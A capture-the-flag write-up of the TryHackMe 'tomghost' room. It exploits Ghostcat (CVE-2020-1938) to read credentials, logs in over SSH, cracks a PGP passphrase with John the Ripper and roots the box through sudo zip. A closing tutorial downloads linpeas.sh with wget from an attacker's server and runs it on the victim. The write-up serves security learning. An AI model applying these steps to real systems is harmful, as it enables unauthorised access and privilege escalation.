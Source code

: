 # ***tomghost***
![alt text](https://i.imgur.com/OyETyLA.png "Tomghost logo")

*Plateform* - [**TryHackMe**](https://tryhackme.com/room/tomghost)

*Rating* - **Easy**

## **Step 1 : SCANNING AND ENUMERATION** 

### *Nmap Output*  

Our nmap scan was the following: `nmap -A -T4 -p- -v -oN tomghost_full 10.10.185.102`

#### *nmap results*

![alt text](https://i.imgur.com/JaQLTK6.png "nmap results")

What seems the most interesting is the combination of **ports 8009 and 8080**.

### *Port 8080 -- Tomcat webserver*

Traveling to http://tomghost.thm:8080/, we notice webserver is running Apache Tomcat/9.0.30. This is an information that will come in handy later to validate our exploit. 

Since the webserver is running the default Apache/Tomcat page, I checked to see if we had access to the manager app. However, we are greeted with a *403 - Forbidden*, indicating this is not the way in.

### *Port 8009 -- Apache Jserv*

If we google `Apache Jserv (Protocol v1.3) exploit`, we will find the **CVE-2020-1938**[https://nvd.nist.gov/vuln/detail/CVE-2020-1938].

>When using the Apache JServ Protocol (AJP), care must be taken when trusting incoming connections to Apache Tomcat. Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited in ways that may be surprising. In Apache Tomcat 9.0.0.M1 to **9.0.0.30**, 8.5.0 to 8.5.50 and 7.0.0 to 7.0.99, Tomcat shipped with an AJP Connector enabled by default that listened on all configured IP addresses. [[Source]](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

From reading this, we learn that our webserver version is most likely vulnerable to this exploit.

After digging a little, we find the exploit-db page for the [*Ghostcat File Read/Inclusion exploit*](https://www.exploit-db.com/exploits/48143) and more information pertaining to GhostCat:

>What is Ghostcat [CVE-2020–1938] vulnerability?
This is an LFI vulnerability in AJP service. An attacker can exploit Ghostcat vulnerability and read the contents of configuration files and source code files of all webapps deployed on Tomcat.
For example, the **/WEB-INF/web.xml** file is the Web Root directory who’s access is restricted and cannot be accessed by anyone over HTTP Tomcat server. [[Source]](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1)

### *Port 22 -- SSH*

While it is nice to know SSH is enabled, this isn't usually a way in.

## **Step 2 : EXPLOITATION**

### *Getting information using GhostCat*

Let's run the ghostcat script found at step 2:

![alt text](https://i.imgur.com/TIEvmi3.png "Script results")

From reading the `web.xml` file, we found potential credentials : `skyfuck:8730281lkjlkjdqlksalks`

### *Exploiting the newly found credentials to find a way in*

Remember that ssh port? Yeah, let's try putting these credentials in.

![alt text](https://i.imgur.com/jPDO4at.png "We are in!")

BINGO! We are in as user *Skyfuck*.

## **Step 3 : POST-EXPLOITATION**

### *Enumerating the Skyfuck user*

![alt text](https://i.imgur.com/Psr2iyT.png "")

Now, there are a few things I want to point out on this screenshot. First off, we are in as a low privileged user, Skyfuck. Regardless of his dubious choice of username, he is very helpful to us and keeps important files on his home directory : `credential.pgp` and `tryhackme.asc`.

While I could waste a bit of time showing you the results of the enumeration for Skyfuck, the real way in is the one described above.

#### Attempt 1 : Reading the credential.pgp file

The `tryhackme.asc` file is a PGP private key and we can assume it is the key to decrypt the `credential.pgp` file.

Let's try!

![alt text](https://i.imgur.com/dG5INEH.png "Can't read!")

Sadly, we need a passphrase and an empty string did not work. No problem, let's work on cracking it!

#### Cracking the tryhackme.asc passphrase

First off, copy the content of the file to your attacker vm. Name this file however you like. I used a very original name for mine: `crackme.asc`.

Next, we'll use JohnTheRipper to crack it.

1. Let's make our file in a format JTR can read: `gpg2john crackme.asc > crackme.hash`

2. Next, we can crack it! I used the `rockyou.txt` wordlist as my dictionary: `john --wordlist=/usr/share/wordlists/rockyou.txt crackme.hash`

Since I've already cracked it before, I won't get anything from the first command, but left it in for the write-up.

![alt text](https://i.imgur.com/nCV6yeE.png "Cracked passphrase!")

There we go! We have the passphrase: `alexandru`

#### Attempt 2 : Reading the credential.pgp file

We can now enter the passphrase and read the `credential.pgp` file.

![alt text](https://i.imgur.com/OamDYkS.png "Merlin credentials")

We find the merlin credentials! `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

### *Enumerating the merlin user*

First off, we notice merlin has the `user.txt` flag inside his home directory.

![alt text](https://i.imgur.com/lhulHWp.png "user.txt")

In order to get an idea of how to privesc, I will use the [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script, by carlospolop.

> NOTE: There are a few ways to put the `linpeas.sh` script on the victim machine. I chose the `wget` way. If you are stuck here, I've written a walkthrough at the bottom of the write-up.

Of course, I can't show the whole output as it would be too long, so let's focus on the important bit:

![alt text](https://i.imgur.com/At2Qf0v.png "Privesc way?")

Interesting! We see we can sudo the `zip` binary. Using [GTFOBins](https://gtfobins.github.io/gtfobins/zip/#sudo), we see a find to privesc.

![alt text](https://i.imgur.com/xzirOD4.png "Rooted!")

**PWNED! We rooted the machine and found the root flag!**

## **SUMMARY**

All in all, this was an easy room but full of very nice elements! My main takeaways from this room are the following: ghostcat, pgp encryption (and decryption), and privesc via a sudo'able binary. 

As promised, the walkthrough for the linpeas.sh script.

> Attacker machine

1. Get [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script and put it in a file named `linpeas.sh`
2. Set up a python server: `python -m SimpleHTTPServer 80`

> Victim machine

1. `wget http://*Your-tun0-ip*/linpeas.sh`    # Download the script from your python http server
2. `chmod +x linpeas.sh`                      # Make it executable
3. `./linpeas.sh`                             # Run it!

> End of tutorial :) This is a very useful tool to keep in your back pocket as you will use it over and over again!

# **Thank you for reading this write-up!**
